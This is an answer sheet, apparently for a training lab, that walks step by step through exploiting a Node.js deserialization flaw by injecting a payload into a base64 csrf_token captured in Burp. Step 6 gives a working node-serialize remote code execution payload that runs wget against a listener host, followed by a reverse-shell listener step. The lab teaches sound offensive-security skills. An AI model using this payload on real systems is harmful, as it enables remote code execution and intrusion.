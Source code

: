 # Node Deserialization Answersheet

**Step 1:** Navigate to "Node Website: 16663" link
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Provide the required details and click on "Register" button
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Capture the request in Burp proxy and capture the csrf_token parameter
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Observer the value while converting the base64 information.
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 5:** Send the request to Burp repeater captured in **Step 3**
<kbd> <img src="5.png" /> </kbd>
<br /> <br />

**Step 6:** Create the node js serealized payload using the following information.
```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('wget http://192.168.X.206:9999/test /',function(error, stdout, stderr) {console.log(stdout) });\n }()"}
```
<kbd> <img src="6.png" /> </kbd>
<br /> <br />

**Step 7:** Start the listener for reverse shell.
<kbd> <img src="7.png" /> </kbd>
<br /> <br />

**Step 8:** Replace the payload generated in **Step 6** in csrf_token parameter 
<kbd> <img src="8.png" /> </kbd>
<br /> <br />

**Step 9:** We are able to receive the request information in reverse shell
<kbd> <img src="9.png" /> </kbd>
<br /> <br />